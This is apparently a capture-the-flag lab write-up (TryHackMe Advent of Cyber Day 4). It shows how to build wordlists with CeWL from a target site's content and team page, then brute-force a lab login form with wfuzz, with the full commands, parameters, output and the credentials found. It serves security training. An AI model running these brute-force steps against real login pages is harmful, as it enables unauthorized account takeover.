



# [Day 4] Brute-forcing - Baby, it's CeWLd outside
The AntarctiCrafts company, globally renowned for its avant-garde ice sculptures and toys, runs a portal facilitating confidential communications between its employees stationed in the extreme environments of the North and South Poles. However, a recent security breach has sent ripples through the organisation.

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## Overview
CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

Beyond simple wordlist generation, CeWL can also compile a list of email addresses or usernames identified in team members' page links. Such data can then serve as potential usernames in brute-force operations.

## Solution
### `CeWL`
To generate a password list, we can iterate over the whole website:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ cewl http://10.10.27.231/ -m 5 -d 2 --with-numbers -w passwords.txt
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ tail passwords.txt
Chief
Happiness
Query
Email
quote
Visit
office
Message
Login
Submit

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$
```

The parameters mean the following:
* `http://10.10.27.231/` target URL
* `-m 5` minimum length of the words
* `-d 2` depth to search when accessing links etc.
* `--with-numbers` adds also word with numbers
* `-w passwords.txt` output file

On the website we find a list of team members:



So we can try to use this single website to get a username:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ cewl http://10.10.27.231/team.php -m 5 --lowercase -w usernames.txt
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ tail usernames.txt
telephone
support
image
query
email
visit
office
message
login
submit

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

One different parameter is `--lowercase`. This creates only lowercase words.

### `wfuzz`
The website got a login interface for employees, which show the text `Please enter the correct credentials` if the login was wrong:



To use our list to brute force this website we can use `wfuzz`:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.27.231/login.php -d "username=FUZZ&password=FUZ2Z" 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.27.231/login.php
Total requests: 57937

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000016437:   302        118 L    297 W      4442 Ch     "isaias - Happiness"

Total time: 0
Processed Requests: 57937
Filtered Requests: 57936
Requests/sec.: 0


┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

The parameters are the following:
* `-z file,usernames.txt` use username list
* `-z file,passwords.txt` use password list
* `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials"
* `-u http://10.10.27.231/login.php` target URL
* `-d "username=FUZZ&password=FUZ2Z"` POST request where FUZZ will be replaced by usernames and FUZ2Z by passwords

### Confidential Message
If we login with the found credentials we can find the flag in the mail called `Confidential Message`:

